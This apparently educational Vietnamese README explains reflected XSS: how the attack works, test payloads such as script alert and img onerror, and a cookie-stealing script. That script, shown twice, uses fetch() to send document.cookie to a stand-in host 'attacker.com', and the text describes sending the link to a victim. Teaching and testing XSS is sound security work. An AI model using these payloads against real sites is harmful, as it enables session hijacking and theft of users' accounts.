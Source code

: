 # Reflected XSS là gì?

Reflected XSS là hình thức tấn công được sử dụng nhiều nhất. Đây là nơi mã script độc hại đến từ HTTP request. Từ đó, hacker đánh cắp dữ liệu của người dùng, chiếm quyền truy cập và hoạt động của họ trên website thông qua việc chia sẻ URL chứa mã độc. Hình thức này thường nhắm đến ít nạn nhân.

### Reflected XSS được triển khai như thế nào?

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/61c733a1-d870-41ff-a224-2d47ffe572fd" />
</p>

Quá trình triển khai Reflected XSS cũng tương tự như các dạng tấn công cross-site scripting khác, đều gồm 4 bước chính sau:

- **Bước 1:** Kẻ tấn công tạo ra một URL có chứa mã độc, thường là JavaScript. 
**Ví dụ:**
```
http://example.com/search?query=<script>fetch('http://attacker.com?cookie='+document.cookie);</script>
```
> Hành động này cho phép kẻ tấn công lấy được cookie người dùng nếu họ còn giữ phiên đăng nhập và truy cập vào.

- **Bước 2:** Kẻ tấn công gửi liên kết độc hại qua email, mạng xã hội hoặc các phương tiện khác để lừa nạn nhân click vào.

- **Bước 3:** Khi nạn nhân nhấp vào liên kết, trình duyệt của họ gửi yêu cầu đến máy chủ với các tham số trong URL. Nếu ứng dụng web không kiểm tra và xử lý dữ liệu đầu vào một cách an toàn, nó sẽ phản hồi lại với mã độc đã được chèn.

- **Bước 4:** Mã độc được phản hồi từ máy chủ sẽ được thực thi trong môi trường trình duyệt của nạn nhân.

### Cách thức khai thác

**Payload:** ```<h1>XSS</h1>```, ```<script>alert('XSS')</script>```, ```<img src=x onerror=alert('XSS');>```...

**Hành động:** Đưa vào các tham số trong URL, form nhập liệu, kết quả từ tìm kiếm....

**Mong đợi:** Trang web trả về chức năng của payload( thẻ tiêu đề ```<h1>```, ```alert()```...).

**Mục tiêu:** Xác nhận trường input không được xử lý đầu vào, có thể khai thác.

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/cbb8b168-69a3-400b-a87f-a9a7a6789c7e" />
</p>

> Khi nhập payload **```<h1>XSS</h1>```** vào ô tìm kiếm, phản hồi từ trang web cho thấy thẻ tiêu đề **```<h1>```** đang được chèn trược tiếp vào URL và nội dung của HTML. Điều này cho thấy ứng dụng chèn nội dung từ URL vào trang web mà không có bất kỳ biện pháp lọc hoặc mã hóa nào.

**Khai thác đánh cắp phiên đăng nhập**

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/d1954303-aaba-4090-978a-6b41b16f14d3" />
</p>

> Chèn hành động **```fetch()```** để thực hiện đánh cắp cookie người dùng.
Payload: **```<script>fetch('http://attacker.com?cookie='+document.cookie);</script>```**. Sau đó gửi URL có chứa script cho nạn nhân và chờ đợi nạn nhân truy cập vào.

<p align="center">
<img width="801" alt="Ảnh chụp Màn hình 2025-03-31 lúc 15 12 58" src="https://github.com/user-attachments/assets/12917bfa-1a0d-489d-b958-debb02f708ee" />
</p>

> Khi nạn nhân click vào URL thì cookie sẽ được gửi trực tiếp đến attacker.